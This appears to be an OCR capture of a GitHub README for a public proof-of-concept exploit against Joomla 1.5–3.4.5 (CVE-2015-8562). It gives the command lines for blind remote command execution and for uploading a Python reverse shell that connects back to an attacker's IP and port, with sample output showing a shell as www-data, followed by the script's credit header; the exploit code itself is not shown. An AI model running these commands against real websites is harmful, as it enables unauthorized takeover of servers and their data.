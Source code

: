 ### poc

Blind RCE:

```
python joomla-cve-2015-8562.py -t http://<target_ip>/ --cmd
$ touch /tmp/test 
```

Spawn Reverse Shell:

```
python joomla-cve-2015-8562.py -t http://<target_ip>/ -l <local_ip> -p <local_port>
[-] Attempting to exploit Joomla RCE (CVE-2015-8562) on: http://<target_ip>/
[-] Uploading python reverse shell
<Response [200]>
[+] Spawning reverse shell....
<Response [200]>
Listening on [0.0.0.0] (family 0, port 1337)
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

```
#!/usr/bin/python

# Exploit title: "Joomla 1.5 - 3.4.5 Object Injection RCE"

# Date: 15/09/2017

# Author: Gary@ Sec-1 ltd

# Modified: Andrew McNicol BreakPoint Labs (@0xcc_labs)

# Modified: Paolo Stagno (@Void_Sec) - [https://voidsec.com](https://voidsec.com)

# Vendor Homepage: [https://www.joomla.org/](https://www.joomla.org/)

# Software Link: [http://joomlacode.org/gf/project/joomla/frs/](http://joomlacode.org/gf/project/joomla/frs/)

# Version: Joomla 1.5 - 3.4.5

# Tested on: Debian 3.2.89-2 x86_64 GNU/Linux (Joomla! 3.2.1 Stable)

# CVE : CVE-2015-8562

‘’’

Blind RCE:

python joomla-cve-2015-8562.py -t [http://192.168.0.1/](http://192.168.0.1/) --cmd

$ touch /tmp/test

Spawn Reverse Shell:

python joomla-cve-2015-8562.py -t [http://192.168.0.1/](http://192.168.0.1/) -l 192.168.0.2 -p 1337

[-] Attempting to exploit Joomla RCE (CVE-2015-8562) on: [http://192.168.0.1/](http://192.168.0.1/)

[-] Uploading python reverse shell with LHOST:192.168.1.119 and LPORT:1337

<Response [200]>

[+] Spawning reverse shell…
```